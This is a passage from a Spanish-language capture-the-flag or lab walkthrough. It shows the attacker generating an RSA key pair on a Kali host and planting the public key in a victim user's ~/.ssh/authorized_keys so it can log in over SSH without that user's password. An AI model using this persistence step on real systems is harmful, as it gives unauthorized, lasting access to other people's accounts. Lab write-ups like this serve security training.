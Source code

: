 Vemos que tambien podemos entrar en el `.ssh` de dicho usuario, por lo que podremos aprovechar esto para meter nuestra clave `PEM` de nuestro `host` y poder conectarnos por `SSH` sin necesidad de ingresar la contraseña de dicho usuario, pudiendo autenticarnos como el, por lo que haremos lo siguiente:

> MAQUINA HOST

```shell
ssh-keygen -t rsa -b 2048
```

Info:

```
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:QIVmdgs/c+NKnUDfqu7uGo57U/PdZf+6YdIKi6HAAH8 root@kali
The key's randomart image is:
+---[RSA 2048]----+
|      .o.        |
|     .* o        |
|.    +.= o .     |
| o     .* + .    |
|  o E   SB +     |
|   +    + =  .  o|
|    o .o.=....+o.|
|     +oooo.o.+...|
|    oo+B* . . ooo|
+----[SHA256]-----+
```

Ahora que hemos generado esto en la carpeta `.ssh/` vamos a copiarnos el contenido de la clave publica y pasarnosla un archivo que tendremos que llamar como `authorized_keys`, para que asi nos podamos conectar desde nuestro `host`:

```shell
cat ~/.ssh/id_rsa.pub
```

Info:

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7doSokNUW+9cQb5VIjousG+87SAqyEcP2mUuWZfLN0qARO/nCOa2rywRS9gl716wpUfS+K2mTL7QZ3CI6R6j/SW6QgazeTNtOy1jGRVQc+XQHncQBNTF7gCSkUT+jTiPLUrvdmi/oj2e7u5vkTNq4UQGLxzFpzYvhqMh6nY03vjPyzTGNN2u5QRik624TDIlS5+XWLInSw9Vo3PgxNfsn2qxWsU1ZGUsfEDIeWVy2s0K7pDHwn/DZyA41dzo4Hfx995YHZ45K30YjW7kdmgVddPhsl5kJksFuFzJ+OaubI+IWhNkiqnfB6MTFksBuBJRnzVGD9QjzigD33Mip2IY3 root@kali
```

Ahora en la maquina victima le pegaremos dicho contenido dentro de la carpeta `.ssh/` de la carpeta `robertj`:

```shell
nano /home/robertj/.ssh/authorized_keys

#Dentro del nano

<ID_RSA.pub>
```
